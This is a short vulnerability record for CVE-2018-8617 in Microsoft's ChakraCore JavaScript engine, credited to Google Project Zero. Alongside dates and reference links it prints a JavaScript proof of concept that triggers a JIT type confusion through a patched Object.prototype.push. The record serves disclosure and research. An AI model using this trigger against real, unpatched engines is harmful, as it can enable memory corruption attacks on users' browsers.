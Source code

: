 # CVE-2018-8617

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(a, b) {
    a.b = 2;
    b.push(0);
    a.a = 0x1234;
}

function main() {
    Object.prototype.push = Array.prototype.push;

    for (let i = 0; i < 1000; i++) {
        let a = {a: 1, b: 2};
        opt(a, {});
    }

    let o = {a: 1, b: 2};
    opt(o, o);

    print(o.a);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8617)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1705)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/c04787f16efe8564cd3acee7549854dc156419b2)
